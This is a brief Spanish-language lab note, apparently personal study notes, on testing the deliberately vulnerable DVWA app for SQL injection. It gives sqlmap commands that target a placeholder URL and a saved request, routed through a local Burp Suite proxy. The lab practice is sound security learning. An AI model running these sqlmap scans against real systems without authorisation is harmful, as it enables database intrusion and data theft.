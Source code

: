 dvwa github maquina docker a explotar

 Burpsuit 
crtl+u codifica la url

```
sqlmap -u "url/?id=*" --level 1 --risk 1 --random-agent --proxy http://127.0.0.1:8080

```

Lo pasamos por el proxy de burpsuit y podemos ver las peticiones que esta ejecutando.

Integracion de BurpSuit con sqlmap


```
sqlmap -r req.txt --level 1 --risk 1 --random-agent --proxy http://127.0.0.1:8080

```

en la reques tendremos la request extraida desde bupsuit donde tendremos el campo id=*
